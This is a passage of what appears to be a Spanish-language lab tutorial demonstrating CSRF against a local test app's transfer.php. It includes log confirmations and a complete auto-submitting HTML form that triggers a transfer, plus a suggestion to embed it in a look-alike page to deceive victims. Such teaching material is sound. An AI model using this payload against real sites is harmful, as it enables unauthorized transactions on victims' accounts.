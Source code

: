 ![](images/csrf3.png)

Confirmación: El ataque CSRF se ejecutó correctamente
- El log indica que el navegador envió una solicitud GET a transfer.php?amount=1000 desde
csrf_attack.html.
- El servidor respondió con 200 OK, lo que significa que la transacción se realizó sin que el usuario lo
notara.

Esto confirma que transfer.php es vulnerable a CSRF porque NO verifica el origen de la solicitud ni usa
protección con tokens.

Una variante es que podemos insertar un formulario automático en una página legítima, con una estética muy parecida al diseño original, para engañar a la víctima.

Crea el archivo csrf_attack2.html:
~~~
<!DOCTYPE<html>
<body>
        <form action="http://localhost/transfer.php" method="POST">
                <input type="hidden" name="amount" value="1000">
                <input type="submit">
        </form>
        <script>
                document.forms[0].submit();
        </script>
</body>
</html>
~~~
El usuario al realizar una transferencia, no se dá cuenta que en realidad ha realizado una transferencia a la cuenta del atacante

![](images/csrf4.png)

Confirmación: El ataque CSRF automático funcionó
- El log indica que el navegador envió una solicitud POST a transfer.php desde csrf_attack2.html.
- El servidor respondió con 200 OK, lo que significa que la transacción se ejecutó sin que el usuario lo
notara.
